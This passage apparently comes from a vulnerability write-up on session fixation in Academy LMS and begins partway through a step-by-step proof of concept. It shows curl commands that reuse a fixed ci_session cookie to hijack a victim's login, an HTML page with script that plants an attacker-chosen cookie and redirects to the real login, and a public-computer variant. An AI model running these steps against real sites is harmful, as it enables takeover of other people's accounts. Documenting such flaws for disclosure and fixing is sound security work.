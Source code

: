 #### Step 3: Victim Logs In
```bash
# Victim logs in with the fixed session ID
curl -X POST "https://target.com/lms/login/validate_login" \
  -H "Cookie: ci_session=abc123def456" \
  -d "email=victim@example.com&password=victimpassword"

# Response shows successful login but same session ID
# Set-Cookie: ci_session=abc123def456 (unchanged!)
```

#### Step 4: Attacker Accesses Session
```bash
# Attacker uses the same session ID to access victim's account
curl "https://target.com/lms/user/dashboard" \
  -H "Cookie: ci_session=abc123def456"

# Successfully accesses victim's authenticated session
```

### Advanced Attack Scenarios

#### Scenario 1: Social Engineering
```html
<!-- Attacker creates malicious page -->
<!DOCTYPE html>
<html>
<head>
    <title>Academy LMS System Maintenance</title>
</head>
<body>
    <script>
    // Set fixed session ID
    document.cookie = "ci_session=attacker_controlled_id; domain=target.com; path=/";
    
    // Redirect to real login page
    setTimeout(() => {
        window.location.href = "https://target.com/lms/login";
    }, 1000);
    </script>
    
    <p>Redirecting to login page...</p>
</body>
</html>
```

#### Scenario 2: Public Computer Attack
```bash
# Attacker uses public computer to set session
curl "https://target.com/lms/login" \
  -c cookies.txt

# Extract session ID
SESSION_ID=$(grep ci_session cookies.txt | cut -f7)

# Leave computer with predetermined session
# Victim logs in later with the same session
# Attacker returns and uses the session
```
